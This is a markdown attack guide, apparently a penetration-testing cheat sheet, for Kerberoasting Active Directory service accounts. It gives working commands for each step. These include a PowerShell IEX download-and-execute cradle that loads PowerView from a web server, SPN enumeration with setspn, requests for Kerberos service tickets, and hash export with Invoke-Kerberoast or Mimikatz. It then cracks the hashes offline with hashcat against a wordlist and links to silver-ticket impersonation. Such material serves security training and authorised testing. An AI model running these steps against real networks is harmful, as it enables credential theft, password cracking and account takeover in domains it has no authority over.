# Attacking Kerberos

*Target:* Active Directory accounts that have the SPN value set

## Without Mimikatz

1. Read and understand [Kerberos Fundamentals](https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html)
2. Download [powerview.ps1](https://github.com/PowerShellEmpire/PowerTools/blob/master/PowerView/powerview.ps1) and [upload it to Windows machine](../file_transfer_smbserver/README.md)
3. Import `powerview.ps1` into memory

        powershell
        IEX (New-Object Net.WebClient).DownloadString('http://werbserver:80/PowerView.ps1')

4. Enumerate **domain accounts** that have SPN (Service Principal Name) set, i.e., look for **user-generated** service accounts
   1. [GetUserSPNS.ps1](https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1)
   2. [Find-PSServiceAccounts.ps1](https://github.com/PyroTek3/PowerShell-AD-Recon/blob/master/Find-PSServiceAccounts)
   3. [PowerView’s "Get-NetUser -SPN"](https://github.com/PowerShellMafia/PowerSploit/blob/5690b09027b53a5932e42399f6943e03fa32e549/Recon/PowerView.ps1#L2087-L2089)
   4. Windows built-in utility **setspn.exe**

            setspn.exe -F -Q */* > Service.txt

5. Request **Kerberos tickets** for the identified service accounts using following **PowerShell** commands

        Add-Type -AssemblyName System.IdentityModel
        New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken –ArgumentList “Replace_With_SPN_Name”

6. List all the available cached tickets

        klist

7. Install the [RiskySPNs](https://github.com/cyberark/RiskySPN) PowerShell module, and obtain the user hash

        Import-Module -Name .\RiskySPNs.psm1 -verbose 
        Invoke-Kerberoast | Select-Object Hash | Out-File -filepath HashCapture.txt

8. Download and import [autokerberoast_noMimikatz.ps1](https://github.com/xan7r/kerberoast/blob/master/autokerberoast_noMimikatz.ps1) PowerShell script
9.  Display the extracted tickets in **hashcat compatible** format
  
        Invoke-AutoKerberoast

10. Use [hashcat](https://hashcat.net/hashcat/) to crack the password

        hashcat -a 0 -m 13100 ./hash.txt /home/kali/Documents/lab/wordlist/rockyou.txt -r /usr/share/hashcat/rules/d3ad0ne.rule --force 

## With Mimikatz

1. Use **Mimikatz** to extract tickets from memory

        .\mimikatz.exe
        standard::base64
        kerberos::list /export

2. Begin offline password cracking
   1. [tgsrepcrack.py](https://github.com/nidem/kerberoast/blob/master/tgsrepcrack.py)
   2. [kirbi2john.py](https://github.com/magnumripper/JohnTheRipper/blob/bleeding-jumbo/run/kirbi2john.py)

3. [Impersonate user](https://stealthbits.com/blog/impersonating-service-accounts-with-silver-tickets/)

## References

* https://cobalt.io/blog/kerberoast-attack-techniques
* https://www.harmj0y.net/blog/powershell/kerberoasting-without-mimikatz/
* http://pentestmonkey.net/cheat-sheet/john-the-ripper-hash-formats
* https://pentestlab.blog/2018/06/04/spn-discovery/
* https://pentestlab.blog/2018/06/12/kerberoast/
* https://github.com/cyberark/RiskySPN
* https://m0chan.github.io/2019/07/31/How-To-Attack-Kerberos-101.html
* https://adsecurity.org/?page_id=1821
* https://cobalt.io/blog/kerberoast-attack-techniques
* https://malicious.link/post/2016/kerberoast-pt3/
* https://pentestlab.blog/2018/06/12/kerberoast/
* https://github.com/nidem/kerberoast
* [Extracting the Ticket](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/t1208-kerberoasting#extracting-the-ticket)
* https://stealthbits.com/blog/impersonating-service-accounts-with-silver-tickets/

